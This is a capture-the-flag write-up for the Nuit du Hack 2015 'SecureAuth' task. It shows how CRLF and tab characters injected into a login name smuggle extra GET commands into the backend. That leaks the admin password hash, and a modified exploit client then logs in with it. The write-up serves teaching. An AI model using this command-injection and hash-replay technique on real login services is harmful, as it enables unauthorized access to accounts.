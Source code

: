# Nuit du Hack Quals CTF 2015: SecureAuth

**Category:** Exploit
**Points:** 350
**Solves:** 16
**Description:** 

> "There is a building. Inside this building there is a level where no elevator can go, and no stair can reach. This level is filled with doors. These doors lead to many places. Hidden places. But one door is special. One door leads to the source." (The Keymaker)
> 
> Find the key. Open the door.
> 
> Static client @ [http://static.challs.nuitduhack.com/SecureAuthClient.tar.gz](SecureAuthClient.tar.gz)
> 
> <secureauth.challs.nuitduhack.com:4241>

## Write-up

This task is an exploit task worth 350 points from the Nuit du Hack qualifications.
We are given the following Python code :

```python    
import socket
from hashlib import sha256
 
class SecureConnect_Client():
    def __init__(self):
        self.sock = None
        self.username = None
        self.password = None
 
    def connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.connect(("151.80.18.93", 4241))
 
    def login(self, username, password):
        self.username = username
        self.password = password
        challenge = self.get_challenge()
        authpacket = self.process_authpacket(username, password, challenge)
        print "[~] Sending auth packet..."
        self.sock.sendall(authpacket)
 
    def get_challenge(self):
        data = self.sock.recv(1024)
        if data[:9] == "CHALLENGE":
            print "[~] Server sent challenge : %s !" % data[10:-1]
            return data[10:-1]
        raise Exception("Bad challenge...")
 
    def process_authpacket(self, username, authtoken, challenge):
        packet = "AUTH %s|%s" % (username, sha256(sha256(authtoken).hexdigest() + challenge).hexdigest())
        print "[+] Auth data : %s" % packet
        return packet
 
    def get_response(self):
        print self.sock.recv(1024)
        print self.sock.recv(1024)
 
    def close(self):
        self.sock.close()
 
if __name__ == "__main__":
    scc = SecureConnect_Client()
    scc.connect()
    scc.login("username", "password")
    scc.get_response()
    scc.close()
```

This scripts connects to a server (151.80.18.93, port 4241).
The servers sends us a challenge. It will be used as a salt to hash our password.
We then try to login with the following command :
    
```
AUTH $login|sha256(sha256($pass) || $challenge)
(Where || is a concatenation.)
```

The algorithm seems to be pretty secure. But there has to be a way to break it.
Overflow didn’t work.
Format string didn’t work.
We then tried to inject special chars, such as quotes, new lines… and figured that new lines produced an unexpected behaviour.

By putting a new line, we got the following error :
    
> [+] Welcome -ERR unknown command ':name' we are verifying your password...

We tried to guess commands, and connect with « \r\nGET\r\n ».
    
> [+] Welcome -ERR wrong number of arguments for 'get' command we are verifying your password...

Spaces are not allowed. New lines makes a new command. So we need a whitespace char : \t.

Loging in with \r\nGET\tyolo\r\n :
    
> [+] Welcome $-1 we are verifying your password...

We managed to get the original behaviour by using « admin:name\r\nGET\t » as a login.
It makes the following commands :
```
GET admin:name
GET :name
```

> [+] Welcome Administrator we are verifying your password...

Our thoughts are that it was probably a database. So we tried to guess an other field, like… a password, maybe ?
admin:password\r\nGET\t
    
> [+] Welcome 837a135ad3ccb1978f169aa62a62a028b76ec42b2284791bd4703421ec050529 we are verifying your password...

Hum hum. :)
Since the hash we send is sha256($hash || $challenge), we need to edit the script to send our hash, and login as admin.
Final code :

```python
import socket
from hashlib import sha256
 
class SecureConnect_Client():
    def __init__(self):
        self.sock = None
        self.username = None
        self.password = None
 
    def connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.connect(("151.80.18.93", 4241))
 
    def login(self, username, password):
        self.username = username
        self.password = password
        challenge = self.get_challenge()
        authpacket = self.process_authpacket(username, password, challenge)
        print("[~] Sending auth packet...")
        self.sock.sendall(authpacket.encode())
 
    def get_challenge(self):
        data = self.sock.recv(1024)
        if data[:9] == b"CHALLENGE":
            print("[~] Server sent challenge : {} !".format(data[10:-1]))
            return data[10:-1]
        raise Exception("Bad challenge...")
 
    def process_authpacket(self, username, authtoken, challenge):
        packet = "AUTH {}|{}".format(username, authtoken)#sha256(sha256(authtoken.encode()).hexdigest() + challenge).hexdigest())
        packet = "AUTH {}|{}".format(username, sha256(authtoken.encode() + challenge).hexdigest())
        print("[+] Auth data : {}".format(packet))
        return packet
 
    def get_response(self):
        print(self.sock.recv(1024).decode())
        print(self.sock.recv(1024).decode())
 
    def close(self):
        self.sock.close()
 
if __name__ == "__main__":
    scc = SecureConnect_Client()
    scc.connect()
    # scc.login("user'name", "password")
    scc.login("admin:password\r\nGET\t", "837a135ad3ccb1978f169aa62a62a028b76ec42b2284791bd4703421ec050529")
    scc.get_response()
    scc.close()
```

Result :
> [+] Congrats. The flag is : *INSERT_FUNNY_QUOTE_HERE*

Flag: *INSERT_FUNNY_QUOTE_HERE*

Thanks to: 
[Tishrom](https://twitter.com/Tishrom)

— [XeR](https://twitter.com/XeR_0x2A)
